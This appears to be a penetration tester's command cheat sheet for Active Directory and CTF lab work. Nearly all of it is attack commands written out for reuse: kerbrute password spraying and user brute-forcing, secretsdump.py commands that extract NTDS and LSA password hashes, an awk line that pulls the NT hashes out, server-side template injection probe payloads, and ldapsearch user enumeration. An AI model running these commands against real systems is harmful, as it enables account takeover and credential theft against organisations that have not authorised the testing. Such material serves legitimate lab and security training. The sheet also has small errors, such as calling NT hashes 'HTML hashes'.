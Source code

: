 `./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain\users.txt Password123`

`./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman`

***

**SMB FILES DOWNLOAD**

> SMBGET

[SMBGET](https://www.samba.org/samba/docs/current/man-html/smbget.1.html)

`smbget -U sbradley smb://raz0rblack.thm/trash/experiment_gone_wrong.zip`

***

**Secrets dump**

To decode the ntds.dit\
`secretsdump.py LOCAL -ntds ntds.dit -system system.hive | tee ntds.unshadowed`

To dump hashes `secretsdump.py marvel/fcastle:Password@<ip>` It will dump ntml or lsa secrets hashes.

***

**AWK**

Extract onlt the HTML hashes from the ntds file

`awk -F: '{ print $4}' ntds.unshadowed > ntmlhases_from_ntds_unshadowed`

\-F is a field separator `echo "hello::there::friend" | awk -F "::" '{print $1, $3}'`

***

**SSTI TEST PAYLOADS**

```
{{7*7}}

${7*7}

<%= 7*7 %>

${{7*7}}

#{7*7}
```

***

**LDAP**

ldapsearch

Extract users

```
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
```
